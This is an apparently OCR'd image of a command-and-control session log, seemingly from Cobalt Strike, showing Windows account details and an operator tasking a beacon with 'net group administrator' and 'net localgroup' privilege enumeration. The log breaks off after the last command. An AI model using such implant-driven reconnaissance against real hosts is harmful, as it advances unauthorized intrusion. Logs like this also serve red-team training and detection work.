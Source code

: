 ```

User's comment               

Country/region code          000 (System Default)

Account active               No

Account expires              Never



Password last set            3/28/2018 3:51:52 PM

Password expires             Never

Password changeable          3/29/2018 3:51:52 PM

Password required            Yes

User may change password     Yes



Workstations allowed         All

Logon script                 

User profile                 

Home directory               

Last logon                   4/20/2018 7:09:36 AM



Logon hours allowed          All



Local Group Memberships      *Administrators       

Global Group memberships     *None                 

The command completed successfully.




[10/06 16:34:04] beacon> shell net group administrator
[10/06 16:34:04] [*] Tasked beacon to run: net group administrator
[10/06 16:34:08] [+] host called home, sent: 54 bytes
[10/06 16:34:08] [+] received output:
This command can be used only on a Windows Domain Controller.



More help is available by typing NET HELPMSG 3515.




[10/06 16:35:09] beacon> shell net localgroup
[10/06 16:35:09] [*] Tasked beacon to run: net localgroup
```